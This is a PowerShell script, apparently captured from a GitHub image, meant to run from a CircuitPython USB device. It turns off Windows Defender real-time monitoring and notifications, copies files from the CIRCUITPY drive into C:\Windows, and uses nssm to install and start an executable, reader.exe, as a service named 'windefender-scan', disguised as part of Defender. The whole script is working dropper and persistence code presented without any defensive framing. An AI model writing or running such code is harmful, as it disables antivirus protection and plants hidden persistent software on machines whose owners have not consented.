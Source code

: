 # Define a log file
$logFile = "C:\temp\script_log.txt"

# Function to log messages to both console and log file
function Log-Message {
    param (
        [string]$message
    )
    $timestamp = Get-Date -Format "yyyy-MM-dd HH:mm:ss"
    $logEntry = "$timestamp - $message"
    Write-Host $logEntry
    Add-Content -Path $logFile -Value $logEntry
}

# Log start of script
Log-Message "Script started."

# Disable Enhanced Notifications
try {
    Log-Message "Disabling Enhanced Notifications..."
    Set-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows Defender Security Center\Notifications" -Name DisableEnhancedNotifications -Value 1
    Log-Message "Enhanced Notifications disabled."
} catch {
    Log-Message "Error disabling Enhanced Notifications: $_"
}

# Disable Real-Time Monitoring
try {
    Log-Message "Disabling Real-Time Monitoring..."
    Set-MpPreference -DisableRealtimeMonitoring $true
    Log-Message "Real-Time Monitoring disabled."
} catch {
    Log-Message "Error disabling Real-Time Monitoring: $_"
}

# Find the CIRCUITPY drive
Log-Message "Searching for CIRCUITPY drive..."
$driveLetter = Get-WmiObject Win32_LogicalDisk | Where-Object { $_.VolumeName -eq "CIRCUITPY" } | Select-Object -ExpandProperty DeviceID

if ($driveLetter) {
    Log-Message "CIRCUITPY drive found: $driveLetter."
    $sourcePath = Join-Path $driveLetter "data"
    $destinationPath = "C:\Windows"

    # Check if the source path exists
    if (Test-Path $sourcePath) {
        Log-Message "Source path exists: $sourcePath. Copying files..."
        Copy-Item -Path "$sourcePath\*" -Destination $destinationPath -Recurse -Force
        Log-Message "Files copied to $destinationPath."
        
        Set-Location -Path $destinationPath

        # Define NSSM path and service parameters
        $nssmPath = Join-Path $destinationPath "nssm.exe"
        $serviceName = "windefender-scan"
        $exePath = Join-Path $destinationPath "reader.exe"

        # Check if NSSM and reader.exe exist
        if ((Test-Path $nssmPath) -and (Test-Path $exePath)) {
            Log-Message "nssm.exe and reader.exe found. Installing service..."
            try {
                & $nssmPath install $serviceName $exePath
                & $nssmPath start $serviceName
                Log-Message "Service installed and started successfully."
            } catch {
                Log-Message "Error installing or starting the service: $_"
            }
        } else {
            Log-Message "Error: nssm.exe or reader.exe not found in $destinationPath."
        }
    } else {
        Log-Message "Error: Source folder 'data' not found on CIRCUITPY drive."
    }
} else {
    Log-Message "Error: CIRCUITPY drive not found."
}

# Log end of script
Log-Message "Script completed."
